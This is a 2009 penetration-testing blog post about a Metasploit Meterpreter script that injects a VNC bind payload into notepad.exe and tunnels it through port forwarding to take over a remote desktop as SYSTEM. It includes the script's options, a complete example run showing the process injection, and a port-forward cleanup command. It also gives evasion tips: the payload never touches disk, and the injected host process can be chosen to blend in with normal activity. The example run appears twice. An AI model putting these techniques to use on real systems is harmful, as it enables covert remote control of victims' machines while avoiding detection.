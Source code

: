 ---
author: mubix
comments: true
date: 2009-12-15 13:00:37+00:00
layout: post
title: Meterpreter tunneling and VNC revamped
categories:
- metasploit
- meterpreter
- vnc
---

So yesterday (December 14th, 2009) [HD Moore](http://twitter.com/hdmoore) posted [a tweet](http://twitter.com/hdmoore/status/6663737357) with a pic of the new VNC meterpreter script that he wrote:

![](/images/postimages/200912_vnc_1.png)

Looking at the script I noticed that it created a new connection (two connections outbound). Well it was the perfect excuse to take the newly refurbished portfwd command for a spin.

[https://github.com/mubix/stuff/blob/master/metasploit/vnc_oneport.rb](https://github.com/mubix/stuff/blob/master/metasploit/vnc_oneport.rb)

Or you can get it via the SVN at [Revision 7872](https://metasploit.com/redmine/projects/framework/repository/revisions/7872)

By creating a bind payload instead of a reverse connect we can have the payload listen locally. Then with portfwd command (just like on your home router) we forward a local port to the local host on the remote side, to the binded port. Connecting to the freshly bound port as if we were actually doing everything on the box itself. Creating a new session and a nice beautiful VNC window.

## Options:

```
meterpreter > run vnc_oneport -h

OPTIONS:  
-e <opt> The process to run and inject into (default: notepad.exe)  
-h  This help menu  
-l <opt> The local port to listen on via port forwarding (default: 5901)  
-p <opt> The port on the remote host to bind VNC to (default: randomized)

meterpreter >
```

## Example Run:

```
[*] Meterpreter session 1 opened (192.168.92.103:4444 -> 192.168.92.113:1038)

meterpreter > **_run vnc_oneport_**
[*] Creating a VNC stager: RHOST=127.0.0.1 LPORT=1207
[*] Host process notepad.exe has PID 532
[*] Allocated memory at address 0x00640000
[*] Writing the VNC stager into memory...
[*] Running Payload
[*] Creating a new thread within notepad.exe to run the VNC stager...
[*] Starting the port forwarding from 5901 => TARGET:1207
[*] Local TCP relay created: 0.0.0.0:5901 <-> 127.0.0.1:1207

meterpreter > [*] VNC Server session 2 opened (127.0.0.1:56893 -> 127.0.0.1:5901)
Connected to RFB server, using protocol version 3.3
No authentication needed
Desktop name "VNCShell [SYSTEM@WORKSTATION1] - Full Access"
VNC server default format:
32 bits per pixel.
Least significant byte first in each pixel.
	True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
	Using default colormap which is TrueColor.  Pixel format:
	32 bits per pixel.
Least significant byte first in each pixel.
	True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
	Using shared memory PutImage
Same machine: preferring raw encoding
ShmCleanup called
[*] VNC Server session 2 closed.
meterpreter >
[*] Meterpreter session 1 opened (192.168.92.103:4444 -> 192.168.92.113:1038)  
meterpreter > run vnc_oneport  
[*] Creating a VNC stager: RHOST=127.0.0.1 LPORT=1207  
[*] Host process notepad.exe has PID 532  
[*] Allocated memory at address 0x00640000  
[*] Writing the VNC stager into memory...  
[*] Running Payload  
[*] Creating a new thread within notepad.exe to run the VNC stager...  
[*] Starting the port forwarding from 5901 => TARGET:1207  
[*] Local TCP relay created: 0.0.0.0:5901 <-> 127.0.0.1:1207  
meterpreter > [*] VNC Server session 2 opened (127.0.0.1:56893 -> 127.0.0.1:5901)  
Connected to RFB server, using protocol version 3.3  
No authentication needed  
Desktop name "VNCShell [SYSTEM@WORKSTATION1] - Full Access"VNC server default format: 32 bits per pixel. Least significant byte first in each pixel. True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0  
Using default colormap which is TrueColor.  Pixel format: 32 bits per pixel. Least significant byte first in each pixel. True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0  
Using shared memory PutImageSame machine: preferring raw encodingShmCleanup called  
[*] VNC Server session 2 closed.

meterpreter >
``` 

## Note:

The forwarded port does not close even if the meterpreter session is ended, so use the following command to close the forward:

```
meterpreter > portfwd delete -l 5901  
[*] Successfully stopped TCP relay on 0.0.0.0:5901
meterpreter >

(Note to BT4 users: do a `apt-get install vncviewer` before using any of the vnc payloads in Metasploit)

The script utilizes just one of the millions of way you can leverage 'portfwd' in your endeavors. But where it gets interesting is the fact that the delivery method for the payload never touches disk. That magic is all credited to HD though. What happens is a new process is created (notepad by default) and the newly created VNC bind payload is injected into it. But, the beauty is that it's doing local connections via the port forwarding so all you see in TCPView is:

![](/images/postimages/200912_vnc_2.png)

Now it's definitely suspicious that Notepad has any connections at all, but you can use the option `-e` to provide any executable you wish, as long as it's in the path for the system. For examples, look at what's running naturally already.

Plus, you would probably not be using port 4444 for a meterpreter session. But what I wanted to demonstrate with this script is the power of both meterpreter, and port forwarding.

Now it's your turn to make it better. Take a look at the guts, see if anything will help you in your scripting.
